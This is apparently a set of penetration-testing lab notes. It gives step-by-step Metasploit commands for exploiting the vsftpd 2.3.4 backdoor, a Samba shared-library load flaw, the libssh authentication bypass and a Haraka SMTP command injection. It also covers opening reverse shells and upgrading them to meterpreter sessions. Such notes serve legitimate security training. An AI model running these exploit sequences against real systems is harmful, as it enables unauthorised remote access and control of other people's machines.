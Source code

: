 * from msfconsole
* db_nmap -sV -O <target> --> to confirm ftp server and the version
* search type:exploit vsftpd --> There is a backdoor vulnerability in vsftpd 2.3.4 that allows RCE
* use exploit/unix/ftp/vsftpd_234_backdoor
    * set RHOSTS; set port; run (might require multiple tries)
    * This results in cmd shell
        * type /bin/bash -i (to open a bash shell for ease of use)
    * use post/multi/manage/shell_to_meterpreter (To convert the shell to meterpreter)
        * set LHOST eth1
        * set SESSION 1 (The session running bash shell)

### Exploiting Samba

* Runs on 445 but legacy system ran on NETBOIS on 139
* db_nmap -sV -O <target> --> to confirm Samba server and the version
    * did not reveal the specific version, only returned Samba smbd 3.X - 4.X workgroup: WORKGROUP
* search type:expoit samba
* use exploit/linux/samba/is_known_pipename (triggers an arbitrary shared library load vuln in samba)
    * set rhosts; run
    * results in a cmd shell
    * put the cmd shell in background
    * use post/multi/manage/shell_to_meterpreter (To convert the shell to meterpreter)
        * set LHOST eth1
        * set SESSION 1 (The session running cmd shell)

### Exploiting SSH

*  db_nmap -sV -O <target> --> reveals the server is running libssh 0.8.3 (vulnerable to auth bypass)
* search libssh_auth_bypass (auxiliary module, but can result in a shell)
    * use auxiliary/scanner/ssh/libssh_auth_bypass;
        * set rhosts <target>; set SPAWN_PTY true; run
        * will result in a shell session
    * search shell_to_meterpreter
        * use post/multi/manage/shell_to_meterpreter (To convert the shell to meterpreter)
        * set LHOST eth1
        * set SESSION 1 (The session running cmd shell)

### Exploiting SMTP

* uses port 25. Can be configured to run on 465 and 587
* The has a vulnerable haraka SMTP server (>v2.8.9 vulnerable to cmd injection)
* db_nmap -sV <target>
    * reveals Haraka smtpd 2.8.8
* search type:exploit haraka
    * use exploit/linux/smtp/haraka
        * set SRVPORT 9898 --> I think this is a SMTP callback server
        * set email_to root@attackdefence.test
        * set payload linux/x64/meterpreter_reverse_http (Unstaged payload)
            * set LHOST eth1
            * set LPORT 8080
        * run
            * this opens up a meterpreter session
